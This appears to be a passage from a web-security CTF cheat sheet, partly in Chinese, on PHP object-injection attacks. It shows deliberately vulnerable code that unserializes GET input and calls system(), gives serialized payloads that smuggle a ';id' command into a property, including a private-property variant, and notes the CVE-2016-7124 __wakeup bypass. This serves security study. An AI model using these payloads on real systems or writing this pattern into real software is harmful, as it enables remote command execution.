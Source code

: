- Example

```php
  <?php

  class Kaibro {
    public $test = "ggininder";
    function __wakeup()
    {
      system("echo ".$this->test);
    }
  }

  $input = $_GET['str'];
  $kb = unserialize($input);
```

- Input: `.php?str=O:6:"Kaibro":1:{s:4:"test";s:3:";id";}`
- Output: `uid=33(www-data) gid=33(www-data) groups=33(www-data) `

<br>

- Example 2 - Private

```php
  <?php

  class Kaibro {
    private $test = "ggininder";
    function __wakeup()
    {
      system("echo ".$this->test);
    }
  }

  $input = $_GET['str'];
  $kb = unserialize($input);

```

- Input: `.php?str=O:6:"Kaibro":1:{s:12:"%00Kaibro%00test";s:3:";id";}`

- Output: `uid=33(www-data) gid=33(www-data) groups=33(www-data)`

---

- CVE-2016-7124
  - 影響版本：
    - PHP5 < 5.6.25
    - PHP7 < 7.0.10
  - 物件屬性個數大於真正的屬性個數，會略過`__wakeup`的執行
  - 反序列化會失敗，但是`__destruct`會執行
  - HITCON 2016

- 小特性
  - `O:+4:"test":1:{s:1:"a";s:3:"aaa";}`
  - `O:4:"test":1:{s:1:"a";s:3:"aaa";}`
  - 兩者結果相同

